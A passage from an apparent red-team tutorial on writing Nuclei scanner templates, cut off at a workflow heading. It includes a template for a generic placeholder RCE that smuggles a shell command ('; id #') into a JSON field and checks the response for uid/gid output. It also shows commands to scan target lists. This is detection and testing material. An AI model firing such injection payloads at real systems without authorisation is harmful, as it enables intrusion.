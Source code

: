 To run this custom template:

```bash
nuclei -u https://target-wordpress-site.com -t ./wordpress-debug-log.yaml -v
```

### Example: Discovering New CVEs with Custom Templates

This example demonstrates how to create and use a template for a recently disclosed vulnerability:

1. Create a template file `cve-2023-example.yaml`:

```yaml
id: cve-2023-example

info:
  name: Example Application RCE
  author: RedTeamer
  severity: critical
  description: Remote code execution vulnerability in Example Application
  reference: https://nvd.nist.gov/vuln/detail/CVE-2023-XXXXX
  tags: cve,cve2023,rce,example-app

requests:
  - raw:
      - |
        POST /api/process HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        
        {"action":"ping","target":"127.0.0.1; id #"}

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "uid="
          - "gid="
          - "groups="
        condition: and

      - type: status
        status:
          - 200
```

2. Run Nuclei with your custom template:

```bash
nuclei -l targets.txt -t ./cve-2023-example.yaml -o results.txt
```

### Comprehensive Scanning Workflow

For red team engagements, implement this Nuclei workflow:
